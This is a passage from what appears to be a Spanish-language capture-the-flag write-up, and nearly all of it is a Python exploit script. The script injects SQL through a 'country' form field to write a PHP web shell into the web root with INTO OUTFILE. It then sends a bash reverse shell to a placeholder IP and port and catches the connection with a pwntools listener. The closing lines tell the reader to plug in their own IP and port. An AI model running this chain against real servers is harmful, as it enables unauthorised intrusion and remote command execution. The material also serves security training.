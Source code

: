 ```python
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
        try:
                threading.Thread(target=getAccess, args=()).start()
        except Exception as e:
                log.error(str(e))

        shell = listen(lport, timeout=20).wait_for_connection()
        shell.interactive()
        getAccess()
```

En este caso ajustarlo a tu `IP` y `PUERTO` en lo dicho anteriormente y en la seccion de `lport = <PORT>` una vez ajustado esto y ejecutado tendremos una shell interactiva...
